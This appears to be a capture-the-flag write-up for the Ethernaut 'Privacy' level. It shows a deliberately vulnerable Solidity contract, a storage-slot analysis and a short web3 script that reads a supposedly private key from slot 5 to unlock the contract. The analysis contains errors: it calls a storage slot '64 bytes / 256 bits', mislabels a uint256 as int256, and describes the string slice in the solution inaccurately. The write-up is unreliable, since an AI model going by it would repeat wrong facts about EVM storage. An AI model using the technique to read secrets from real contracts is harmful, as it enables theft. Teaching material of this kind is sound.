 # **Level 12 -- Privacy**
## **Contract to hack**
``` ts
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {

  bool public locked = true;
  uint256 public ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(block.timestamp);
  bytes32[3] private data;

  constructor(bytes32[3] memory _data) {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }

  /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
  */
}
`````` 
---
## ***Objectives***
* Unlock
---
## ***Thought Process***
The knowledge point is the same as the one in Level 8.
Due to the type of the parameter `ID` is `int256`, it needs to occupy a separate slot. Therefore `locked` occupy a separete slot either. Then `flattening`, `denomination`, `awkwardness` can share the same slot, because every slot has 64 bytes / 256 bits, and 8 + 8 + 16 < 256.
Besides, the fixed-length array of bytes32, each bytes32 occupy 1 whole slot.
``` ts
bool public locked = true;              // slot 0
uint256 public ID = block.timestamp;    // slot 1
uint8 private flattening = 10;          // slot 2
uint8 private denomination = 255;       // slot 2
uint16 private awkwardness = uint16(block.timestamp);  //slot 2
bytes32[3] private data;                // slot 3 - 5
```
As a result, the data of the key is in slot 5.

---
## ***Solution***
``` ts
> let data = await web3.eth.getStorageAt(instance, 5);
> let key = data.slice(0, 32); // due `require(_key == bytes16(data[2]));` we only need the first 32 bytes
> await contract.unlock(key);
```



